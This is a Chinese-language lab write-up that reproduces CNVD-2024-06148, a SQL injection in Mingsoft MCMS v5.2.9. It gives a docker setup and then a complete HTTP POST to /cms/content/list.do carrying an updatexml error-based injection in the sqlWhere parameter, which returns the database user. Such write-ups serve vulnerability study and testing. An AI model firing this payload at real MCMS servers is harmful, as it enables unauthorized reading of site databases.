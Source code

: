 # CNVD-2024-06148 Mingsoft MCMS v5.2.9 前台查询文章列表接口 SQL注入

MCMS是中国铭飞（MingSoft）公司的一个完整开源的J2ee系统免费可商用的开源Java CMS内容管理系统，它基于SpringBoot 2/前端element UI/提供上百套模板,同时提供实用的插件/每两个月收集issues问题并更新版本/一套简单好用开源免费的Java CMS内容管理系/一整套优质的开源生态内容体系。铭飞的使命就是降低开发成本提高开发效率，提供全方位的企业级开发解决方案。江

MCMS v5.2.9版本存在SQL注入漏洞，该漏洞源于/content/list.do中的categoryType参数缺少对外部输入SQL语句的验证，攻击者可利用该漏洞获取数据库敏感数据。

项目地址https://gitee.com/mingSoft/MCMS

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/137272571
- https://www.cnvd.org.cn/flaw/show/CNVD-2024-06148
- https://gitee.com/mingSoft/MCMS/issues/I8MAJK

## 漏洞环境

执行如下命令启动一个mcms-v5.2.9-web服务器：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:8080/ms/login.do`mcms登录界面

## 漏洞复现

发送该包

```xml
POST /cms/content/list.do HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Content-Length: 326
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br

categoryType=1&sqlWhere=%5b%7b%22action%22%3a%22and%22%2c%22field%22%3a%22updatexml(1%2cconcat(0x7e%2c(SELECT%20%20current_user)%2c0x7e)%2c1)%22%2c%22el%22%3a%22eq%22%2c%22model%22%3a%22contentTitle%22%2c%22name%22%3a%22æç« æ é¢%22%2c%22type%22%3a%22input%22%2c%22value%22%3a%22111%22%7d%5d&pageNo=1&pageSize=10
```

![](https://img-blog.csdnimg.cn/direct/2efe237d0a964b70bf0f2fa850532cdb.png)